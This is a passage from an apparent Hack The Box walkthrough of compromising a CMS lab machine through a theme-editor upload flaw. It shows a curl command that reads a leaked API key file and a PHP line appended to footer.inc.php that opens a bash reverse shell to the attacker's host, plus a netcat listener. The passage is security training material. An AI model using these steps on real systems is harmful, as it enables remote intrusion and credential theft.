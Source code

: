 > 
> &lt;domain\_tld&gt;htb&lt;/domain\_tld&gt;
> 
> &lt;install\_date&gt;01-01-1970&lt;/install\_date&gt;
> 
> &lt;category&gt;Business&lt;/category&gt;
> 
> &lt;link\_back&gt;yes&lt;/link\_back&gt;
> 
> &lt;/data&gt;

Googling the product name and version, we found that its subjected to the following vulnerabilities:

- [CVE-2019-11231](https://vulmon.com/vulnerabilitydetails?qid=CVE-2019-11231&scoretype=cvssv3) : insufficient input sanitation in the theme-edit.php file allows upload of files with arbitrary content (PHP code, for example)
- [Unauthenticated Remote Code Execution](https://www.exploit-db.com/exploits/46880): allowing an unauthenticated attacker to perform remote code execution, authentication can be bypassed by leaking the CMS API key to target the session manager.

> Note: API key can be found within the following path:
> 
> http://10.129.181.169/data/other/authorization.xml
> 
> This can be confirmed by the following command:
> 
> curl -s http://10.129.181.169/data/other/authorization.xml | xmllint --format -
> 
> *?xml version="1.0" encoding="UTF-8"?>*
> 
> *&lt;item&gt;*
> 
> *&lt;apikey&gt;<!\[CDATA\[==**4f399dc72ff8e619e327800f851e9986**==\]\]>&lt;/apikey&gt;*
> 
> *&lt;/item&gt;*

After finding the details of the existing code execution vulnerability and navigate through all tabs of the login page, we found our code execution vulnerability in the Theme tab / Theme Editor.

![shell.png](../_resources/shell.png)

## Gaining a Foothold:

Now that we have found our target's vulnerable page, lets start getting a reverse shell by appending our PHP reverse_shell code to the **footer.inc.php** page as in the picture above.

```php
<?php system("bash -c 'bash -i >& /dev/tcp/10.10.14.43/4444 0>&1'")?>
```

Running our **netcat** listener on port **4444** as follow:

```
nc -nvlp 4444
```
